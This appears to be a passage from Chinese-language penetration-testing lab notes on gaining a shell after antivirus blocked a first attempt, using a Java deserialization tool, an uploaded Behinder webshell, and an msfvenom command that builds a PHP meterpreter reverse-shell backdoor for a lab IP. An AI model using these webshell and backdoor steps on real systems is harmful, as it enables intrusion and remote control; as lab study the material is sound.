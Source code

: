 

失败，360 拦下来了

![image-20220904160410608](2.assets/image-20220904160410608.png)



#### 漏洞 WebShell

##### Java反序列化漏洞利用工具 + 冰蝎 反弹 Shell

tasklist 发现 360

![image-20220904163431356](2.assets/image-20220904163431356.png)

![image-20220904163651371](2.assets/image-20220904163651371.png)



将 [冰蝎](https://github.com/rebeyond/Behinder) 的Server传上WEB

> Requset [JRE](https://www.oracle.com/java/technologies/downloads/) 1.8+

![image-20220905193231829](2.assets/image-20220905193231829.png)

冰蝎连接，成功：

![image-20220905193450444](2.assets/image-20220905193450444.png)



看看系统信息

![image-20220906012948157](2.assets/image-20220906012948157.png)

Shell 也返回成功了

![image-20220906013521880](2.assets/image-20220906013521880.png)



##### MSF 反弹 Shell

生成 PHP 后门

```php
┌──(root㉿kali)-[/home/kali]
└─# msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.111.128 lport=9999 -f raw >houmen.php                              
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1116 bytes
```

![image-20220906013850233](2.assets/image-20220906013850233.png)



